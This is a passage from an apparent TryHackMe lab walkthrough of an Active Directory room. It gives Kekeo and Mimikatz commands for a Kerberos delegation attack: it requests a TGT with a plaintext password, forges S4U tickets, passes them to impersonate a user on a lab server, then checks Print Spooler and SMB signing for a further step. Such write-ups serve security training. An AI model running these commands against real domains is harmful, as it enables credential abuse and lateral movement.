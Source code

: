 We gain access to the password associated with the `svcIIS` account, and we can perform a Kerberos delegation attack using `Kekeo` and `mimikatz`. Exit the previous `mimikatz` session before proceeding.

* We can find `Kekeo` on the machine and open it with the command:
	* `C:\Tools\kekeo\x64\kekeo.exe`
* We generate the tickets using the following command:
	* `tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@`
* With our generated TGT for for the account that can perform the delegation, we can forge TGS requests for the account we want to impersonate. We need to perform this for both HTTP and WSMAN We can run the following command to allow us to create a PSSession on `THMSERVER1`:
	* `tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc`
	* `tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc`
* Exit `Kekeo` and start `Mimikatz`
	* `C:\Tools\mimikatz_trunk\x64\mimikatz.exe`
* Import the 2 TGS tickets using `Mimikatz`:
	* `privilege::debug`
	* `kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi`
	* `kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi`
* Exit `Mimikatz` and run `klist` to verify if the tickets were imported
* Finally, we can create our PSSession on THMSERVER1 using the commands:
	* `New-PSSession -ComputerName thmserver1.za.tryhackme.loc`
	* `Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc`
* In this new session we can get our flag, which is located at `C:\Users\Administrator\Desktop\flag2.txt`

The flag for the next task (task 4) should be obtained in this session as well. It can be found at `C:\Users\Administrator.ZA\Desktop\flag3.txt`

### Task 4

For this task a new SSH connection with the original credentials is required.

We need to connect to the `THMWRK1` machine using our originally supplied credentials using SSH like so:

```bash
$ ssh za.tryhackme.loc\\AD_USERNAME@thmwrk1.za.tryhackme.loc
```

From our SSH session on THMWRK1, we can use a WMI query to see if the Print Spooler service is running on THMSERVER2, which we don't currently have access to. We can do this using the command:

```powershell
> GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc
```

The service is indeed running. Next we need to check if SMB signing is not enforced. We can do this with the following `nmap` command from our attacking machine:

```bash
$ nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc
```
